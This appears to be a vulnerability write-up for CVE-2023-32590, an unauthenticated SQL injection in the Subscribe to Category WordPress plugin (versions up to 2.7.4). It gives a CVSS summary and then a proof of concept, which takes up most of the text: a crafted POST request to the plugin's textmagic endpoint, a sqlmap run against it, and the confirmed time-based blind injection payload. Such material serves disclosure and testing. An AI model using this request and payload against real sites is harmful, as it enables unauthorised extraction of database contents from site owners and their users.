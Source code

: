 # CVE-2023-32590
Subscribe to Category <= 2.7.4 - Unauthenticated SQL Injection

# Description

The Subscribe to Category plugin for WordPress is vulnerable to SQL Injection in versions up to, and including, 2.7.4 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database. CVE-2023-38382 appears to be a duplicate assignment of this issue.

## Details

- **Type**: plugin
- **Slug**: subscribe-to-category
- **Affected Version**: 2.7.4
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2023-32590
- **Status**: Closed

POC
---
```
POST /wp-json/textmagic/v1/smsreceived HTTP/1.1
Host: kubernetes.docker.internal:8929
Content-Type: application/json
Content-Length: 52

{
    "sender": "12312313*",
    "text": "test"
}
```

```
$ sqlmap -r test.txt --dbms mysql
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.8#pip}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:54:41 /2025-01-12/

[08:54:41] [INFO] parsing HTTP request from 'test.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
JSON data found in POST body. Do you want to process it? [Y/n/q] y
[08:54:43] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=7dd5100dc1f...26402faeab'). Do you want to use those [Y/n] y
[08:54:44] [INFO] testing if the target URL content is stable
[08:54:45] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
[08:54:45] [INFO] testing if (custom) POST parameter 'JSON #1*' is dynamic
[08:54:45] [WARNING] (custom) POST parameter 'JSON #1*' does not appear to be dynamic
[08:54:45] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might not be injectable
[08:54:45] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
[08:54:45] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[08:54:45] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[08:54:45] [INFO] testing 'Generic inline queries'
[08:54:45] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[08:54:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[08:54:46] [WARNING] time-based comparison requires larger statistical model, please wait............... (done)
[08:54:57] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
y
[08:55:05] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[08:55:05] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[08:55:06] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {
    "sender": "12312313' AND (SELECT 1843 FROM (SELECT(SLEEP(5)))jyGy) AND 'ooEP'='ooEP",
    "text": "test"
}
---
[09:03:02] [INFO] the back-end DBMS is MySQL
```
